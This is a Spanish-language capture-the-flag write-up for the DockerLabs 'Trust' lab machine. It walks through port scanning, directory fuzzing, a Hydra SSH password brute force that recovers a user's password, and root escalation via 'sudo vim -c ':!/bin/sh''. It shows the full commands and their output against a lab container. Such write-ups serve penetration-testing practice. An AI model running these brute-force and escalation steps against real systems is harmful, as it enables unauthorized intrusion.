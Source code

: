 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux vulnerada a travez de un ataque de fuerza bruta"
date: 2024-05-17
classes: wide
header:
  teaser: /assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta.

# Herramientas

    nmap
    hydra

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que se encuentran 2 puertos abiertos 22 que corresponde al servicio de SSH y el puerto 80 al servicio web Apache

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 12:22 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

Procedo a investigar el puerto 80 en el navegador ingreso la siguiente URL `http://172.17.0.2` en el cual está la pagina de por default del servicio Apache

![trust000](https://pentest4noob.github.io/Writetups/assets/images/writetup-dockerlabs-trust/trust000.png)

La pagina no tiene nada mas interesante, por lo tanto procedo a realizar fuzzing web a ver si me encuentro con algo mas

```bash
gobuster dir -n 404 -t 64 -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

Finalizado el fuzzing se observa que hay un directorio secret.php

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,py,sh,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

procedo a ver que hay en ese directorio ingresando la siguiente url en el navegador `http://172.17.0.2/secret.php`

![secret.php](https://pentest4noob.github.io/Writetups/assets/images/writetup-dockerlabs-trust/002trust.png)

Me encuentro con el siguiente mensaje "Hola Mario, Esta web no se puede hackear." no me encuentro con nada mas en esta web, por lo tanto tengo un posible usuario llamado Mario, el cual voy a usar para hacer fuerza bruta al servicio SSH con la herramienta Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                               |
| --------- | ----------------------------------------- |
| -l        | usario                                    |
| -P        | carga varias contraseñas desde un ARCHIVO |
| -t        | cantidad de hilos en paralelo             |
| ssh       | protocolo a atacar                        |

El ataque de fuerza bruta confirma el usuario mario y muestra la contraseña chocolate

```css
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 12:48:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 12:48:54
```

con estos datos procedo a realizar la intrusión en el equipo mediante el servicio SSH

# 2- Intrusión

Conexión a la maquina victima por el servicio SSH

```bash
ssh mario@172.17.0.2
```

al solicitar la contraseña ingreso `chocolate` y me permite el acceso a la maquina victima con el usuario mario intrusión realizada

![](https://pentest4noob.github.io/Writetups/assets/images/writetup-dockerlabs-trust/003trust.png)

# 3- Escalada de privilegios

Llego de momento de escalar privilegios y ser el usuario root, para ello voy a ejeutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![](https://pentest4noob.github.io/Writetups/assets/images/writetup-dockerlabs-trust/004trust.png)

Se observa que se puede ejecutar el binario `/usr/bin/vim` como el usuario **root**. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

ejecutando el siguiente comando vamos a tener acceso a root

```bash
sudo vim -c ':!/bin/sh'
```

Listo! se logró escalar privilegios a al usuario root

![](https://pentest4noob.github.io/Writetups/assets/images/writetup-dockerlabs-trust/005trust.png)
